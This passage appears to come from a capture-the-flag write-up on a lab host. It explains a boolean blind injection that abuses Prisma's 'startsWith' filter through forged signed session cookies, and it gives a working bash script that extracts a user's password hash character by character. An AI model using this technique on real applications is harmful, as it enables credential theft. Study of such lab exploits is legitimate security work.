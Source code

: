 After searching the Prisma API documentation I found this referenced.

```js
startsWith
Examples
Get all Post records where title starts with Pr (such as Prisma)

const result = await prisma.post.findMany({
  where: {
    title: {
      startsWith: 'Pr',
    },
  },
})
```

This means it should be possible to use `startsWith` to validate the contents of the database field one character at a time. To do so a valid cookie will need to be generated with each request and the valid characters need to be tracked as it progresses. It will also be necessary to figure out how to determine if the output of the request relates to a true or false result.

After experimenting with the application I learned that if a true value is returned it will load the users files. If a false value is returned it will redirect to the login page. 

#### JSON data for Boolean check

`{"flashes":{"info":[],"error":[],"success":[]},"user":{"id":1,"password":{"startsWith":"???"}}}`

#### Bash script used to automate checks

```bash
#!/bin/bash

HASH=""

while true
do
  for i in {0..9} {a..z} {A..Z}
  do 
    echo "{\"flashes\":{\"info\":[],\"error\":[],\"success\":[]},\"user\":{\"id\":1,\"password\":{\"startsWith\":\"$HASH$i\"}}}" > new.json
    COOKIE=$(cookie-monster -e -n download_session -f new.json -k "8929874489719802418902487651347865819634518936754" | grep + | cut -d " " -f 4 | sed -z 's/\n/; /g' | sed 's/; $//g' | ansi2txt | tr '\n' ' ')
    #echo $COOKIE
    CODE=$(curl -s -x http://localhost:8080 http://download.htb/home -H "Cookie: $COOKIE" | wc -c)
      if [[ $CODE > 2160 ]];
      then
        HASH=$HASH$i
        echo $HASH
      fi
    done
done
```
